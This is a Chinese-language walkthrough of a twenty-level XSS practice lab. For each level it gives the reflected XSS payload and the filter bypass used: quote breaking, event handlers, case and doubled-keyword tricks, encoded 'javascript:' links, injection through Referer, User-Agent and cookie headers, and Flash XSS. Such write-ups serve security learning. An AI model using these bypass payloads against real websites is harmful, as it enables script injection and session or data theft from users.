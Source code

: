 ## level1
反射型XSS</br>
```java
payload：?name=<script>alert(1)</script>
```

## level2
```java
payload："><script>alert(1)</script>
```

## level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(1).png height="300" width="650">
```java
payload：1' onmouseover='alert(1)
```
鼠标划过输入框上面即弹窗：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(2).png height="300" width="650">

## level4
跟上一关一样，双引号的不同。</br>
```java
payload：1” onmouseover=“alert(1)
```

## level5
script大小写、on事件被禁用：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(3).png height="300" width="650"></br>
但是双引号、单引号、尖括号都可以用</br>
```java
payload：1"><a href="javascript:alert(1)">
```

## level6
script、on事件、href链接相关词被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(4).png height="300" width="650"></br>
可以大小写绕过：</br>
```java
payload：1"><scRipt>alert(1)</scRipt>
```

## level7
输入<script>&lt;onerror&gt;&lt;a hRef&gt;测试，发现对关键字进行了过滤，且大小写不能绕过：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(5).png height="300" width="650"></br>
发现对关键字只进行了一次过滤，可以对关键字双写绕过：</br>
```java
payload：1" oonnmouseover="alert(1)
```
  
## level8
先输入一些关键字符<scripT>&lt;oNerror&gt;&lt;a Href&gt;""''，测试防御情况，看到关键字都被转义，看到a标签考虑使用”<a href="javascript:alert(1)"></a>“，页面有回显的超链接，想办法将script转码一下。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(6).png height="300" width="650"></br>
尝试用如下方式对标签属性值进行转码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(7).png></br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(8).png></br>
```java
payload：javasc&#13ript:alert(1)
```

## level9
测试看到a标签考虑使用<a href="javascript:alert(1)"></a>，页面有回显的超链接，想办法将script转码一下。</br>
但是使用上一关的payload测试，发现一直提示链接不合法，测试得知必须使用`http://`才能链接合法，想办法将该字符塞入payload中，使用js代码的注释符注释`http://`</br>
```java
payload：javasc&#9ript:alert(1)/*http://*/
payload：javasc&#9ript:alert(1)//http://
payload：javasc&#9ript:alert(1)<!--http://
```

## level10
右键审查元素发现t_sort的隐藏域可控制输入内容，但是触发隐藏域需要使用accesskey属性，payload如下。</br>
但是触发的时候浏览器不同触发键不一样；另外笔记本键盘和外设键盘可能会影响触发效果。</br>
FireFox下：shift+alt+X (测试成功) </br>
Chrome下：alt+X (Chrome未测试成功) </br>
```java
payload：?t_sort=1"%20accesskey="X"%20onclick="alert(1)
```

## level11
此题比较注入点隐晦，比较难以发现。首先右键查看页面源代码分析，多了一个t_ref隐藏域，进一步分析它是由请求头中的Referer字段取值而来，而且只能从请求头中取Referer值，不能由URL传值；另外我们知道Referer字段是可以伪造的，那么我们可以使用BurpSuite来抓包伪造Referer字段来构造payload。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(9).png height="300" width="650"></br>
```java
payload：Referer: 1" type="txt" oninput="alert(888)
```
这种构造，会将t_ref隐藏域在页面显现，on事件触发条件为在输入框中输入任意值即触发XSS。</br>

## level12
与上一题一样，只不过输入点在User-Agent。</br>
```java
payload：User-Agent: 1" type="txt" oninput="alert(888)
```

## level13
与上一题一样，只不过输入点在cookie。</br>
```java
payload：user=1" type="txt" oninput="alert(888)
```

## level14
查看网页源码，看到<iframe src=></iframe>标签，就应该考虑设法在src处注入：src=javascript(1)。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(10).png></br>
如何替换`src="http://www.exifviewer.org/"`中的网址成了我们要考虑的问题，进一步追踪该网页的来源，最后通过抓包在响应包中发现该网址。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(11).png></br>
那么我们的思路就清楚了，通过抓包，修改响应包的src值来控制输入内容，达到XSS目的。</br>
```java
payload：src="javascript:alert(666)"
```

## level15
与上一关相似，修改响应包数据：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(12).png height="300" width="650"></br>
```
payload："><script>alert(1)</script><"
```

## level16
经测试，script和/均被过滤，空格符号也无法使用，但是on事件可以使用。使用img标签，将空格用url编码%0a、%0b、%0d替换，测试成功。</br>
```
payload：?keyword=<img%0dsrc=a%0donerror=alert(1)>
```

## level17
从上一关跳转到本关，URL中有两个参数?arg01=a&arg02=b；右键查看源码，是embed标签，它支持on事件，可以在参数b后面空格注入on事件构造payload。
```
payload：?arg01=a&arg02=b%20onmousedown=alert(1)
```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(13).png></br>

## level 18
与上一关相似。这两关也都可以在第一个参数后加空格来绕过。</br>
```
payload1：?arg01=a&arg02=b%20onmouseup=alert(1)
payload2：?arg01=%20onmouseup&arg02=alert(1)
```

## level19
与上面一关解题思路一样，但是输入内容被加了双引号，使用双引号闭合却发现双引号被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(14).png></br>
到了这一关卡，使用Google Chrome和FireFox浏览器已经不能满足题目环境要求了，因为这最后两关卡涉及Flash XSS，需要浏览器支持Flash文件。我们下载QQ浏览器并安装Flash再来看题目，并且学习Flash XSS的知识：https://www.secpulse.com/archives/44299.html。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(15).png></br>
看本关的页面看不出来任何东西，重点还是需要看xsf03.swf这个文件本身，专门下载一个编辑Flash文件.swf的软件JPEXSFreeFlashDecompiler来查看代码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(16).png></br>
xsf03.swf文件打开后里面有一系列文件，我们重点看脚本中的sIFR.js文件，几个关键变量复制出来：</br>
```
static var DEFAULT_TEXT = "Rendered with sIFR 3, revision 436<br><strong>Rendered with sIFR 3, revision 436</strong><br><em>Rendered with sIFR 3, revision 436</em><br><strong><em>Rendered with sIFR 3, revision 436</em></strong>";
static var VERSION_WARNING = "Movie (436) is incompatible with sifr.js (%s). Use movie of %s.<br><strong>Movie (436) is incompatible with sifr.js (%s). Use movie of %s.</strong><br><em>Movie (436) is incompatible with sifr.js (%s). Use movie of %s.</em><br><strong><em>Movie (436) is incompatible with sifr.js (%s). Use movie of %s.</em></strong>";
static var VERSION = "436";
```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(17).png></br>
继续看上图中的逻辑代码，大致意思是入参version如果等于436，页面显示DEFAULT_TEXT内容；如果入参version不等于436，则页面显示VERSION_WARNING内容，注意VERSION_WARNING内容包含一个未过滤的version入参。</br>
再回到本关内容，根据前两关思路，继续利用arg01和arg02两个参数构造测试：</br>
```?arg01=version&arg02=436```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(18).png></br>
```?arg01=version&arg02=888```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(19).png></br>
```最终构造出payload：?arg01=version&arg02=<a href="javascript:alert(1)">888</a>```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(20).png></br>

## level20
借鉴博客：https://blog.csdn.net/u014029795/article/details/103217680</br>
先使用软件JPEXSFreeFlashDecompiler把xsf04.swf中的关键代码拿出来：</br>
```
package
{
   import flash.display.LoaderInfo;
   import flash.display.Sprite;
   import flash.display.StageScaleMode;
   import flash.events.Event;
   import flash.events.MouseEvent;
   import flash.external.ExternalInterface;
   import flash.system.Security;
   import flash.system.System;
   
   public class ZeroClipboard extends Sprite
   {  
      private var button:Sprite;
      
      private var id:String = "";
      
      private var clipText:String = "";
      
      public function ZeroClipboard()
      {
         super();
         stage.scaleMode = StageScaleMode.EXACT_FIT;
         Security.allowDomain("*");
         var flashvars:Object = LoaderInfo(this.root.loaderInfo).parameters;
         id = flashvars.id;
         button = new Sprite();
         button.buttonMode = true;
         button.useHandCursor = true;
         button.graphics.beginFill(13434624);
         button.graphics.drawRect(0,0,Math.floor(flashvars.width),Math.floor(flashvars.height));
         button.alpha = 0;
         addChild(button);
         button.addEventListener(MouseEvent.CLICK,clickHandler);
         button.addEventListener(MouseEvent.MOUSE_OVER,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseOver",null);
         });
         button.addEventListener(MouseEvent.MOUSE_OUT,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseOut",null);
         });
         button.addEventListener(MouseEvent.MOUSE_DOWN,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseDown",null);
         });
         button.addEventListener(MouseEvent.MOUSE_UP,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseUp",null);
         });
         ExternalInterface.addCallback("setHandCursor",setHandCursor);
         ExternalInterface.addCallback("setText",setText);
         ExternalInterface.call("ZeroClipboard.dispatch",id,"load",null);
      }
      
      public function setHandCursor(param1:Boolean) : *
      {
         button.useHandCursor = param1;
      }
      
      private function clickHandler(param1:Event) : void
      {
         System.setClipboard(clipText);
         ExternalInterface.call("ZeroClipboard.dispatch",id,"complete",clipText);
      }
      
      public function setText(param1:*) : *
      {
         clipText = param1;
      }
   }
}
```













